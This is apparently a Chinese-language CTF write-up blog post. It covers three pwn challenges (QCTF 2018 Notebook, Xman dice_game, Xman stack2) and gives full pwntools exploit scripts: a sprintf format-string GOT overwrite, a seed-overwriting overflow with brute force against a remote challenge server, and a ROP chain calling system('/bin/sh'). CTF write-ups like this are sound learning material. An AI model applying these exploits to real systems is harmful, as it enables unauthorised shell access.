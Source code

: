 ```yaml
---
title: QCTF-2018-Pwn-Wp
date: 2018-07-17 16:30:09
tags: pwn
layout: post

---
```

QCTF-2018-Pwn-Wp
<!--more-->
## Notebook
看了Mem2019师傅的payload感觉好强
虽然只有一行payload
但都很精妙

思路：
*	发现是sprintf fmtstr漏洞
*	参数完全可控
*	应该挺简单，改got然后直接getshell
*	然后因为strlen binding过了就瞄准printf了
*	考虑到参数就是fmt所以在fmt开始部分放/bin/sh
*	开始构造payload,大致是"/bin/sh"+"@$%^&*("
*	为了保证能过check2所以长度要一样。。。
*	于是我开始尝试各种蠢方法最后发现不行
*	看了看发现Mem2019师傅直接去写全局变量len然后在那后面加了个\0...
*	然后是发现过是过了但是/bin/sh有点问题。。需要0截断
*	然后利用一个值是0在原本的note中的地址利用%s读
*	最终payload="/bin/sh"+"%30$34239s"+"%28$hn"+"%30$52s"+"%29$n\0"+p32(addr)+p32(addr2)+p32(0x804800c)


exp:
```
from pwn import *
context.log_level="debug"
p=process("./note")
p.readuntil("name?")
debug=1
if debug==0:
	gdb.attach(p,'''
	b *0xf75fac94
	c
	''')
addr=0x804a010
addr2=0x804a08c
vul=0x80485c6#sys_plt+6
payload="/bin/sh"+"%30$34239s"+"%28$hn"+"%30$52s"+"%29$n\0"+p32(addr)+p32(addr2)+p32(0x804800c)
p.sendline(payload)
p.interactive()
```

第一次做sprintf的fmtstr...没有警觉性 半天找不到洞。
还有就是check比较坑check的第一个参数是fmt而sprintf为第二个然后半天搞不懂程序在干啥。。。
经验不足。

## Xman-dice_game
```
  char buf[55]; // [rsp+0h] [rbp-50h]
  char v5; // [rsp+37h] [rbp-19h]
  ssize_t v6; // [rsp+38h] [rbp-18h]
  unsigned int seed[2]; // [rsp+40h] [rbp-10h]
  unsigned int v8; // [rsp+4Ch] [rbp-4h]

  memset(buf, 0, 0x30uLL);
  *(_QWORD *)seed = time(0LL);
  printf("Welcome, let me know your name: ", a2);
  fflush(stdout);
  v6 = read(0, buf, 80uLL);
```
buf可以溢出覆盖种子seed
然后爆破顺序就可以了
爆破脚本:
```
from pwn import *
import random
import time 
#b *0x555555554b09 iwin
def tr(ans):
	#sleep(0.5)
	p=remote("47.96.239.28",9999)
	p.readuntil("name:")
	#context.log_level="debug"
	p.sendline(p64(0xdeadbeefdeadbeef)*8+p64(0))
	i=0
	len_now=len(ans);
	log.success(ans)
	if True:
		while i < len_now:
			p.readuntil("nt(1~6): ")
			next=ans[i]
			i+=1
			p.sendline(next)
		random.seed(time.time())
		next=str(int(random.randint(1,6)));
		p.readuntil("nt(1~6): ")
		p.sendline(next)
		print next
		sub=p.readuntil('.')
		log.info(sub)
		return sub,next

def main():
	ans="25"
	while(1):
		if len(ans)==50:
			print ans			
			break
		re,n=tr(ans)
		if "win" in re :
			ans+=n
		else :
			continue
main()
```
解题脚本:
```
from pwn import *	
p=remote("47.96.239.28",9999)
p.readuntil("name:")
p.sendline(p64(0xdeadbeefdeadbeef)*8+p64(0))
ans="25426251423232651155634433322261116425254446323361"
i=0
while i < 50:
	p.readuntil("nt(1~6): ")
	next=ans[i]
	i+=1
	p.sendline(next)
p.interactive()
```

比完后发现大家都是...
自己写个程序本地运行一下拿到ans的。。。
居然没有发现这个操作。

## Xman-stack2
有限度的任意位置读写
做的时候没看到直接的shell...
走了弯路：
```python
from pwn import *
def wt(off,ch):
	p.readuntil("exit")
	p.sendline("3");
	p.readuntil("which number to change:\n")
	p.sendline(str(off))
	p.readuntil("new number:\n")
	p.sendline(ch)
def wt4(off,ch):
	wt(off+0,str(ord(ch[0])));
	wt(off+1,str(ord(ch[1])));
	wt(off+2,str(ord(ch[2])));
	wt(off+3,str(ord(ch[3])));
	
system_plt=0x8048450
system_got=0x804a018
scanf_plt=0x8048480
scanf_got=0x804a024
puts_plt=0x8048440
puts_got=0x804a014
bss=0x0804a000+0x100
p2r=0x0804895a
pr= 0x08048405
p=process("./stack2")
p=remote("47.96.239.28",2333)
context.log_level="debug"
p.readuntil("have:")
p.sendline("1");
p.sendline("1");
wt4(0x00,"/bin")
wt4(0x04,"/sh\0")
c=2
if c==1:
	wt4(0x84,p32(system_plt))
	wt4(0x8c,p32(0xffffced8))
if c==2:
	wt4(0x84,p32(scanf_plt))
	wt4(0x88,p32(p2r))
	wt4(0x8c,p32(0x8048a97))
	wt4(0x90,p32(bss))
	wt4(0x94,p32(system_plt))
	wt4(0x9c,p32(bss))
if c==3:
	wt4(0x84,p32(puts_plt))
	wt4(0x88,p32(pr))
	wt4(0x8c,p32(system_got))
	wt4(0x90,p32(puts_plt))
	wt4(0x94,p32(pr))
	wt4(0x98,p32(puts_got))
debug=0
if debug==1:
	gdb.attach(p,'''
	b *0xf7e3ec94
	''')
p.sendline("5")

p.sendline("26739")
p.interactive()
0x8048456
#p32(puts)+p32(pr)+p32(system_got)+p32(puts)+p32(pr)+p32(puts_got)
#p32(scanf)+p32(p2r)+p32(0x8048a97)+p32(bss)+p32(sys)+p32(0xdeadbeef)+p32(bss)
#start at 0xffffced8
#ret_addr
```